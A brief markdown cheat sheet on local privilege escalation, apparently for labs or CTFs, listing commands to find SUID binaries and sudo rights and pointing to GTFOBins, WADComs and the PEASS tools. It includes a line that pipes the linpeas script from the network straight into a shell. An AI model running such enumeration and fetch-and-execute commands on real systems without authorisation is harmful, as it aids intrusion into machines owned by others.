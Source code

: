# Linux - GTFOBins
## [GTFOBins](https://gtfobins.github.io/gtfobins/bash/#sudo)
### finding binaries with SUID
```bash
find / -perm /4000 2> /dev/null
```

### finding sudo commands
```bash
sudo -l
```

### lastly, use linpeas so it can find every other attack vector for you
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

# Windows - WADComs
## [WADComs](https://wadcoms.github.io/#)
### use winpeas
[winpeas download](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

### use WADComs to exploit whatever winpeas found

